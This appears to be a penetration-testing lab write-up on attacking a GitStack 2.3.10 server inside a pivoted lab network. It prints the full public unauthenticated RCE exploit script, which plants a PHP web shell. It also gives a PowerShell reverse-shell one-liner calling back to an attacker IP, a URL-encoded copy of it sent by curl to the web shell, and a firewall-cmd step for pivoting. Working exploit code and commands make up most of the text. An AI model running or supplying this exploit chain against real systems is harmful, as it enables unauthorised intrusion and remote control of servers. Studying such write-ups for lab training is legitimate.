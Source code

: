 ## searchsploit results

```bash
└─$ searchsploit gitstack 
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
GitStack - Remote Code Execution                                                   | php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                 | windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                            | php/webapps/43777.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

43777.py

```python
#!/usr/bin/python
# Exploit: GitStack 2.3.10 Unauthenticated Remote Code Execution
# Date: 18.01.2018
# Software Link: https://gitstack.com/
# Exploit Author: Kacper Szurek
# Contact: https://twitter.com/KacperSzurek
# Website: https://security.szurek.pl/
# Category: remote
#   
#1. Description
#  
#$_SERVER['PHP_AUTH_PW'] is directly passed to exec function.
#
#https://security.szurek.pl/gitstack-2310-unauthenticated-rce.html
# 
#2. Proof of Concept
#
import requests
from requests.auth import HTTPBasicAuth
import os
import sys

ip = '10.200.109.150'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

user_list = []

print "[+] Get user list"
try:
	r = requests.get("http://{}/rest/user/".format(ip))
	user_list = r.json()
	user_list.remove('everyone')
except:
	pass

if len(user_list) > 0:
	username = user_list[0]
	print "[+] Found user {}".format(username)
else:
	r = requests.post("http://{}/rest/user/".format(ip), data={'username' : username, 'password' : password})
	print "[+] Create user"
	
	if not "User created" in r.text and not "User already exist" in r.text:
		print "[-] Cannot create user"
		os._exit(0)

r = requests.get("http://{}/rest/settings/general/webinterface/".format(ip))
if "true" in r.text:
	print "[+] Web repository already enabled"
else:
	print "[+] Enable web repository"
	r = requests.put("http://{}/rest/settings/general/webinterface/".format(ip), data='{"enabled" : "true"}')
	if not "Web interface successfully enabled" in r.text:
		print "[-] Cannot enable web interface"
		os._exit(0)

print "[+] Get repositories list"
r = requests.get("http://{}/rest/repository/".format(ip))
repository_list = r.json()

if len(repository_list) > 0:
	repository = repository_list[0]['name']
	print "[+] Found repository {}".format(repository)
else:
	print "[+] Create repository"

	r = requests.post("http://{}/rest/repository/".format(ip), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
	if not "The repository has been successfully created" in r.text and not "Repository already exist" in r.text:
		print "[-] Cannot create repository"
		os._exit(0)

print "[+] Add user to repository"
r = requests.post("http://{}/rest/repository/{}/user/{}/".format(ip, repository, username))

if not "added to" in r.text and not "has already" in r.text:
	print "[-] Cannot add user to repository"
	os._exit(0)	

print "[+] Disable access for anyone"
r = requests.delete("http://{}/rest/repository/{}/user/{}/".format(ip, repository, "everyone"))

if not "everyone removed from rce" in r.text and not "not in list" in r.text:
	print "[-] Cannot remove access for anyone"
	os._exit(0)	

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit_sp00f.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/exploit_sp00f.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')

```

![[Screenshot 2021-04-10 at 9.15.33 PM.png]]

Output of whoami command

So changing the command will get us a reverse shell and its a `Windows Machine`


On studying the script, the command which is being executed can be overwritten by manually passing the the command and its stores in a variable `a`

```python
print "[+] Execute command"
r = requests.post("http://{}/web/exploit_sp00f.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

curl results
![[Screenshot 2021-04-10 at 9.46.04 PM.png]]


```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.109.200',20000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


url-encoded
```
powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.109.200%27%2C20000%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
 
 Here we are not able to get a reverse shell but the command is executed.
 
 ```bash
 └─$ curl http://10.200.109.150/web/exploit_sp00f.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.109.200%27%2C20000%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
 ```
 
 So this might be due to the firewall on the machines.
 
 Starting with centOS as we are pivitoing through CentOS only!
 
 from here https://stackoverflow.com/questions/24729024/open-firewall-port-on-centos-7 we can open ports 
 
 `firewall-cmd --zone=public --add-port=20000/tcp`
 
 Here opening a port is not enough, we have to forward that port to us too.

now after that send the payload and listen on rev shell on the prod server
 
![[Screenshot 2021-04-10 at 11.03.44 PM.png]]

got the reverse shell
![[Screenshot 2021-04-10 at 11.03.31 PM.png]]

now here we are having a stable shell otherwise we can use socat for reverse shell forwarding 
